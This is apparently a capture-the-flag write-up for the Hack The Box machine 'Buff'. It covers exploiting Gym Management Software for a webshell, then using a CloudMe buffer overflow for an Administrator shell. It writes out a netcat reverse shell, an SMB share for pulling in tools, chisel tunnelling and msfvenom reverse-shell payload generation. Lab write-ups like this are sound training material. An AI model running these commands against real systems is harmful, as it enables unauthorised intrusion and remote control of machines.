


# Buff

### Reconnaissance

- port 7680/tcp pando-pub Pando file management software
- port 8080/tcp HTTP

mrb3n's Bro Hut, made using Gym Management Software 1.0

### Exploitation

Vulnerable to Unauthenticated RCE through file upload https://www.exploit-db.com/exploits/48506

Run the exploit to get a webshell on the target

`python2.7 48506.py 'http://10.10.10.198:8080/`

We can upgrade our shell with `nc64.exe` https://github.com/int0x33/nc.exe

Start an SMB server in our uploads directory

`impacket-smbserver -smb2support share -username s -password s`

Connect to it from the webshell

`C:\xampp\htdocs\gym\upload> net use \\10.10.10.10\share /u:s s`

Copy nc64.exe to the target and get a reverse shell

```
C:\xampp\htdocs\gym\upload> copy \\10.10.14.7\share\nc64.exe C:\ProgramData\nc.exe
C:\xampp\htdocs\gym\upload> C:\ProgramData\nc.exe 10.10.10.10 443 -e cmd.exe
```

### Privilege Escalation

Manual enumeration was very important for Buff, using `netstat -ano | findstr TCP | findstr "127.0.0.1"` we 
can see that a process is listening on port 3306 and on port 8888 (only appears intermittently!) locally

Find the executable listening on the port (not reliable, the PID changes very quickly)

`tasklist /v | findstr <PID>`

Port 3306 is mysql for XAmpp, but 8888 is CloudMe.exe

Search C:\ for CloudMe

`dir C:\ /s /b | findstr CloudMe"`

We find the CloudMe exe in Shaun's Downloads



Searchsploit shows a couple of buffer overflows that match the version



As it's locally hosted we need to use chisel to expose the port on our machine, run chisel in server mode on 
the attacking machine

`chisel server -p 8000 --reverse`

Upload chisel to the target with our SMB share and run it in client mode

`.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888`

Using the remote exploit 48389.py, replace the shellcode for calc.exe with a generic windows/shell_reverse_tcp
generated with msfvenom and add `import sys` or replace `sys.exc_value` with e

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload `

Start a netcat listener with rlwrap (Important, won't work otherwise!), swap the shellcode and run the 
exploit to get an Administrator shell

### Lessons Learned

- XAmpp uses php + mysql

- Find local listening network connections with `netstat -ano | findstr TCP | findstr ":0"` the last column 
is the PID

- Find executables running with `tasklist /v`, and with their PID `tasklist /v | findstr <PID>`

- Find file locations with `dir C:\ /s /b | findstr <filename>`

- Use `-v name` with msfvenom shellcode to replace the default variable name

- Use rlwrap to catch shells with netcat to avoid pain and suffering
